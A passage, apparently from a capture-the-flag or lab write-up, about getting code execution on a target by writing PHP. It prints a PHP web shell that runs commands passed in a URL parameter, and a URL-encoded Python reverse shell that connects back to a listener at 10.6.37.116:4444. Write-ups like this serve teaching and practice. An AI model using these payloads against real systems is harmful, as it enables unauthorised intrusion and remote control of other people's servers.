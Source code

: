 Lets try to test using php tags if we can write

<img width="1622" height="733" alt="image" src="https://github.com/user-attachments/assets/089e7b21-0cd9-4b0d-b8cf-0363e643361a" />

## Reverse shell
```
<?php system($_GET['cmd']); ?>
```
<img width="1497" height="778" alt="image" src="https://github.com/user-attachments/assets/f8d81e33-204e-47e2-9dcd-55c4c7ea8cf1" />

python3 was present

payload and crafted it well.
```
python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.6.37.116",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'
```












